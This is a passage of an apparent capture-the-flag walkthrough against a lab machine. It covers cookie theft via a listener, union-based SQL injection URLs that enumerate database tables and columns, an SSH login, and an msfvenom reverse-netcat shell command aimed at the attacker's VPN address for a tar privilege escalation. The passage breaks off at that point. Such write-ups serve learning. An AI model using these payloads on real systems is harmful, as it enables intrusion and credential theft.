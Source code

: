 ```From system Thank you for your report. We have reviewed the listing and found nothing that violates our rules.```
![Image](https://imgur.com/UOsOEbT.png)

So i refresh the messages.

![Image](https://imgur.com/WT6yUsd.png)

```From system Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee's browsers.```

Cool let go back to our Ncat listener to see which fish we just caught on the hook.

![Image](https://imgur.com/LOnuLXF.png)

Cool we have the admin cookie what to do now is to edit our cookie to put the admin cookie we can use cookie editor for that.

![Image](https://imgur.com/9Dmmvqq.png)

We edit the cookie value and save refreshing the page boom we have are in.

![Image](https://imgur.com/VK3JNVm.png)

We have the first flag cool let enumerate more.

![Image](https://imgur.com/jBaIIex.png)

I know what you are thinking yes it vulnerable to SQLI so i got stuck here for some time i try dumping the database with sqlmap but no luck so i try doing it manually so i try checking the version first.

```http://IP/admin?user=-1+union+select+version(),2,3,4```

![Image](https://imgur.com/CKFpgrG.png)

```http://IP/admin?user=-1+union+select+(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),2,3,4```

![Image](https://imgur.com/G3KUZRE.png)

```http://IP/admin?user=-1+union+select+(SELECT+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()),2,3,4```

![Image](https://imgur.com/EavVXwZ.png)

Do a little research on your own to dump the right database here.

![Image](https://imgur.com/DABGNSF.png)

So we have the credentials to log in ssh let hit it.

![Image](https://imgur.com/0Crv2Na.png)

Cool we are in let get the second flag.

![Image](https://imgur.com/pKQoVKS.png)

I always check sudo so let move to the next step so i check ```sudo -l```.

![Image](https://imgur.com/L6BAoRi.png)

Yes privilege escalation to michael cool so let exploit some tar file.

Exploiting a tar file to get a shell is pretty simple just folloow my steps now open a new terminal.

```msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R```

```